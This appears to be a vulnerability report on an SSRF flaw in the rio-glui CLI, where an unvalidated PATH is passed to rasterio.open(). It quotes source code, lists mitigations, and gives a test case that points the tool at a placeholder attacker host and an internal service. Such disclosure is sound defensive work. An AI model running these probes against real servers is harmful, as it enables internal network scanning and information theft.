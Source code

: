 ### Vulnerability List:

#### 1. Server-Side Request Forgery (SSRF) via PATH argument
- **Description:**
    1. An attacker can use the `rio glui` command-line tool and provide a malicious URL as the `PATH` argument.
    2. The `rio-glui` application, running on the server, takes this URL and passes it to the `RasterTiles` constructor.
    3. Inside the `RasterTiles` constructor, the application uses `rasterio.open()` to open the resource specified by the provided URL.
    4. If the URL points to an internal resource (e.g., an internal web server, cloud metadata endpoint, or other internal service), `rasterio.open()` will make a request to that internal resource from the server where `rio-glui` is running.
    5. The response from the internal resource will be processed by `rio-glui`, potentially exposing sensitive information to the attacker if they can observe the application's behavior or if the application returns parts of the response in its output or logs. In more severe cases, depending on the internal resource, this could lead to further exploitation.

- **Impact:**
    - **Information Disclosure:** An attacker could potentially access sensitive information from internal resources that are not intended to be publicly accessible. This could include configuration files, internal documentation, or data from internal services.
    - **Internal Network Scanning:** The attacker could use the `rio-glui` application as a proxy to scan internal network ports and identify running services, gaining valuable information about the internal network infrastructure.
    - **Potential for Further Exploitation:** If the targeted internal resource has vulnerabilities, the SSRF vulnerability in `rio-glui` could be used to pivot and further exploit those internal vulnerabilities. For example, accessing an internal application's administration panel or triggering actions on internal services.

- **Vulnerability Rank:** High

- **Currently Implemented Mitigations:**
    - None. The application directly uses the user-provided PATH argument with `rasterio.open()` without any validation or sanitization.

- **Missing Mitigations:**
    - **Input Validation and Sanitization:** Implement strict validation of the `PATH` argument. This could include:
        - **URL Scheme Whitelisting:** Only allow specific URL schemes (e.g., `http`, `https`, `s3`) and explicitly disallow others (e.g., `file`, `gopher`).
        - **Domain Whitelisting/Blacklisting:** If possible, maintain a whitelist of allowed domains or a blacklist of disallowed domains for remote URLs. For internal deployments, consider only allowing local file paths and S3 URLs to trusted buckets.
        - **Path Sanitization:** Sanitize the URL path to prevent directory traversal or other path-based attacks if local file paths are intended to be supported.
    - **Network Segmentation:** Deploy the `rio-glui` application in a network segment that is isolated from sensitive internal resources. This would limit the potential impact of an SSRF attack by restricting the application's access to internal services.
    - **Principle of Least Privilege:** Ensure that the server running `rio-glui` has minimal necessary permissions. Restrict its network access to only the resources it absolutely needs to function.

- **Preconditions:**
    - The `rio_glui` application must be accessible to the attacker, either publicly over the internet or through a network the attacker has access to.
    - The server running `rio-glui` must have network connectivity to internal resources that the attacker wishes to target.

- **Source Code Analysis:**
    1. **`rio_glui/scripts/cli.py:glui` function:**
       ```python
       @click.command()
       @click.argument("path", type=str)
       ...
       def glui(
           path,
           ...
       ):
           """Rasterio glui cli."""
           ...
           raster = RasterTiles(path, indexes=bidx, tiles_size=tiles_dimensions, nodata=nodata)
           ...
           app = server.TileServer(raster, ...)
           ...
           app.start()
       ```
       - The `glui` function takes the `path` argument directly from user input.
       - This `path` is passed without any validation to the `RasterTiles` constructor.

    2. **`rio_glui/raster.py:RasterTiles.__init__` method:**
       ```python
       class RasterTiles(object):
           ...
           def __init__(self, src_path, indexes=None, tiles_size=512, nodata=None):
               """Initialize RasterTiles object."""
               self.path = src_path
               self.tiles_size = tiles_size
               with rasterio.open(src_path) as src: # Potential SSRF
                   try:
                       assert src.driver == "GTiff"
                       assert src.is_tiled
                       assert src.overviews(1)
                   except (AttributeError, AssertionError, KeyError):
                       raise Exception(
                           "{} is not a valid CloudOptimized Geotiff".format(src_path)
                       )
                   ...
       ```
       - The `RasterTiles` constructor takes `src_path` (which is the user-provided `path`).
       - `rasterio.open(src_path)` is called directly with the user-provided path.
       - `rasterio.open()` is known to support URLs, including those pointing to internal resources.
       - **Visualization:**

       ```mermaid
       graph LR
           A[User Input: PATH Argument] --> B(rio_glui CLI);
           B --> C[RasterTiles Constructor];
           C --> D{rasterio.open(PATH)};
           D -- Malicious URL --> E[Internal Resource];
           E --> D;
           D --> F[rio-glui Application];
           F --> G[Attacker (Potential Info Leak)];
       ```

- **Security Test Case:**
    1. **Setup Attacker Server:** On an attacker-controlled machine, set up a simple HTTP listener (e.g., using `netcat` or `python -m http.server`). For example, using `python -m http.server 8000` will start a web server on port 8000 serving files from the current directory.

    2. **Craft Malicious URL:** Determine the IP address or hostname of the attacker's server (e.g., `attacker-ip`). Construct a malicious URL pointing to the attacker's server, for example: `http://attacker-ip:8000/ssrf_test`.

    3. **Execute `rio glui` with Malicious URL:** On the machine running `rio-glui`, execute the command, replacing `<malicious_url>` with the crafted URL:
       ```sh
       rio glui <malicious_url>
       ```
       For example:
       ```sh
       rio glui http://attacker-ip:8000/ssrf_test
       ```

    4. **Observe Attacker Server Logs:** Check the logs of the attacker's HTTP server. You should see an incoming HTTP request originating from the `rio-glui` server. The request will be for the path specified in the malicious URL (`/ssrf_test` in this example). This confirms that the `rio-glui` application is making an outbound request to the attacker-controlled server based on the user-provided PATH argument, demonstrating SSRF.

    5. **Test Internal SSRF (Optional, if applicable):** If you have access to an internal network and know of an internal resource (e.g., `http://internal-service:8080/`), try to target it using `rio glui`:
       ```sh
       rio glui http://internal-service:8080/
       ```
       Monitor network traffic from the `rio-glui` server or check logs of the internal service (if possible) to verify if the request was made to the internal resource. Note that direct response observation might not be possible depending on network configuration and internal resource behavior, but evidence of the request being initiated from the `rio-glui` server is sufficient to confirm the SSRF vulnerability.